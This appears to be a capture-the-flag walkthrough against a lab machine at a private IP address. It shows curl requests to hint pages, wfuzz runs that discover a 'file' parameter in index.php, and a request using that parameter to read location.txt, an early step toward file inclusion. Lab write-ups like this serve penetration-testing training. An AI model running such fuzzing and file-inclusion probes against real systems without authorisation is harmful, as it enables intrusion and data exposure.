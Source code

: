     $ curl -s http://192.168.172.128/dev   
    hello,

    now you are at level 0 stage.

    In real life pentesting we should use our tools to dig on a web very hard.

    Happy hacking. 

    $ curl http://192.168.172.128/secret.txt                                                                          
    Looks like you have got some secrets.

    Ok I just want to do some help to you. 

    Do some more fuzz on every page of php which was finded by you. And if
    you get any right parameter then follow the below steps. If you still stuck 
    Learn from here a basic tool with good usage for OSCP.

    https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
     


    //see the location.txt and you will get your next move//


## wfuzz

    $ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404  http://192.168.172.128/index.php?FUZZ=something 
    $ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hh 136   http://192.168.172.128/index.php?FUZZ=something

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://192.168.172.128/index.php?FUZZ=something
    Total requests: 951

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                        
    =====================================================================

    000000341:   200        7 L      19 W       206 Ch      "file"                                         

    Total time: 0.439852
    Processed Requests: 951
    Filtered Requests: 950
    Requests/sec.: 2162.089

### See the location.txt

    $ curl http://192.168.172.128/index.php?file=location.txt
    <html>
    <title>HacknPentest</title>
    <body>
     <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" />
    </body>
